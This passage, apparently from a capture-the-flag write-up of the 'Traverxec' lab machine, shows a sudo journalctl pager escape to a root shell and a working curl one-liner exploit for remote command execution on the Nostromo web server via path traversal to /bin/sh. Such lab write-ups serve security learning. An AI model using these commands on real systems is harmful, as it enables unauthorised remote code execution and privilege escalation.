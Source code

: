It ran ***without prompting us for authentication.***

That's good. the command `/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service` is available for `david` without him needing to provide a password.

*To exploit this,* we run the command. ***But because the output is too small,*** **the pager isn't called.**

![](/assets/Traverxec/no-pager-invoked.jpg)

We use `stty` as a quick-and-dirty trick to **shrink our tty.**

```bash
stty rows 20 columns 20
```

![](/assets/Traverxec/pager-invoked.jpg)

*From the highlighted line,* we know **we have a pager** which can be **turned into a bash shell** with `!/bin/bash`

![](/assets/Traverxec/rooted.jpg)

**Owned :D**

## Rewriting the Nostromo exploit
*After some brief testing, and* ***for the sake of simplicity,*** we **re-wrote the the exploit** for Nostromo as a `curl` one-liner:

```bash
curl -s -X $'POST' \
-H $'Content-Length: 1' \
--data-binary $'\x0d\x0aecho\x0d\x0aecho\x0d\x0a<COMMAND>' \
$'http://<HOSTNAME>:<PORT>/.%0d./.%0d./.%0d./.%0d./bin/sh' >/dev/null
```
